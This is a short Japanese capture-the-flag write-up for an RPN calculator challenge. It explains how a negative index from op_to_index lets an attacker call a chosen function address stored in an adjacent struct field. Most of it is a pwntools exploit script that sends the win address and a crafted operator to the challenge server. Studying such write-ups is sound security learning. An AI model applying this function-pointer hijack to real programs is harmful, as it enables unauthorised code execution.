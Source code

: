 # ofd
四則演算ができる逆ポーランド記法の電卓．

ソースコードを読むと，`struct Calculator`の`b`と`op`が連続しており，`op_to_index`で負値を返せるので，`b`に呼び出したい 関数のアドレスを入れ，`op_to_index`が`-1`を返すようにすれば勝ち．

```python
#!/usr/bin/env python3
from pwn import *
context.log_level = 'error'
io = remote('rpn.chal.ipfctf2021.cf', 4002)

for _ in range(3):
    io.readline()

win_addr = 0x004011f6
io.sendline("10 %ld" %(win_addr))

op = chr(ord('*') - 1)

io.sendline(op)
io.readline()
io.readline()
io.readline()
print(io.readline().decode('utf-8', 'ignore'), end='')
```

